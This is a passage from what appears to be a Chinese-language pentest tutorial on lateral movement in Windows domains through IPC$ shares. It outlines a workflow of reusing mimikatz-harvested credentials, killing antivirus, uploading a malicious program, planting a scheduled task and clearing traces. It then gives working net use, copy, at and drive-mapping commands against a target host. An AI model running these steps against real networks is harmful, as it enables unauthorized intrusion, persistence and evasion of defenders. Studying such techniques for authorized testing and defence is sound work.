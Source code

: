 ipc$ 常规使用流程：  

1、获取到一个域用户账号密码（上面通过 mimikatz 获取了）

2、建立 ipc 连接

3、查看进程（是否有杀软，关掉）

4、上传恶意程序 / 映射磁盘

5、写入计划任务

6、清理痕迹

注：这里写计划任务我只用了 at 进行演示，at 在高版本的系统里面已经不建议使用了，用的是 schtasks 添加计划任务，另外还有一个 sc：创建 windows 服务来进行横向渗透。

命令使用演示：

```
Net use  //查看存在的连接
net use \\127.0.0.1\ipc$ "password" /user:"username"  //建立连接
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCbaObTUx5WficJCiaRhx61Bb3ou0OqxdGcJUWjmSibeiaibAoUibjOPibaz5ic24wvr4EnyhDgj8daUUgIsQ/640?wx_fmt=png)

利用 copy 进行传输文件

```
dir \\owa\c$  //查看目标C盘
copy calc.bat \\owa\c$   //将文件上传到目标c盘
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCbaObTUx5WficJCiaRhx61BbxWXibWnXj4fVZTESHmzbGcXbYkBGUMt4CyGyXicwwdvuVP56tL9B5q2A/640?wx_fmt=png)

  

然后用 net time \\ip 查看目标机器当前时间，以便指定计划任务执行的时间

使用 at 命令进行计划任务的创建

```
at \\192.168.52.138 01:35 c:\calc.bat
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCbaObTUx5WficJCiaRhx61Bbj3PqWQl1z3zWNRObrlSxEssbHcOnZO6m9v2ru3NwVmKLFxsC5pF5uw/640?wx_fmt=png)

计划任务是不会有回显过来的，因此我们可以添加一个输出，然后再用 type 命令去读取输出的信息

```
at \\192.168.52.138 01:43 cmd.exe /c "ipconfig > c:/2.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZD84cQ5BUXemePWcEAapzZpE2g3GFicK7rEpxznAV3000gPMMia1hRUWX2e3QnibdmObv4uHXKg9VmjQ/640?wx_fmt=png)

  

通过命令进行磁盘映射

```
net use z: \\ip\c$ "密码" /user:"用户名"
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCbaObTUx5WficJCiaRhx61BbcQJibo7mu5Wa2Nz776EfB4h6gB6qiaN7SvAWoeBd12ZtzGHqdU3KqrVg/640?wx_fmt=png)
